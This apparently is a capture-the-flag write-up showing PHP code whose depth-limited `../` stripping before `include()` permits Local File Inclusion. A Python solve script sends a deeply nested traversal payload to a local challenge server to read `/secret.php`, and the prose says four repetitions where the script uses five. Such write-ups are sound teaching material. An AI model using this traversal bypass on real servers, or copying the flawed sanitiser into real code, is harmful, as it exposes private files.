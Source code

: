 # Overview
- In this challenge we need to perform an LFI attack (Local File Inclusion) to load the file `/secret.php` which contains the flag.
- We analyze the following code:
```php
$list = isset($_GET['list']) ? $_GET['list'] : null;
$content = '';
function clean($input) {
    $max_depth = 100; # Should be enough right?
    for ($i = 0; $i < $max_depth; $i++) {
        $clean = str_replace(['../'], '', $input);
        if ($clean === $input) { # No changes
            return $clean;
        }
        $input = $clean;
    }
    return $clean;
}

if ($list) {
    $clean_list = clean($list);
    $filePath = __DIR__ . '/lists/' . $clean_list;
    if (file_exists($filePath)) {
        ob_start();
        include($filePath);
        $content .= ob_get_clean();
    } else {
        $content .= "<p>List not found.</p>";
    }
}
```
- When `list` param is set, the `clean` function is called to remove any `../` from the input and then the file is included.
- If a check was not made, we could simply use `list=../../../../secret.php` to load the file. However, the `clean` function removes the `../` from the input. But it only does it 100 times.


# Solution

- Let's say the clean was performed only once, we would look for a payload that when `../` was removed, would result to `../`. We can use `....//` for this.
- Scaling this up for `N+1` times, we can use:
```python
def payload(N=101):
    if N == 0:
        return ''
    return f'..{payload(N-1)}/'
```
- We need this payload 4 times to reach the root directory and then we can load the `secret.php` file.
- Final solve script:
```python
from requests import get
url = 'http://localhost:1337'

def payload(N=101):
    if N == 0:
        return ''
    return f'..{payload(N-1)}/'

r=get(f'{url}/?list={payload()*5}secret.php').text
print(r)
```
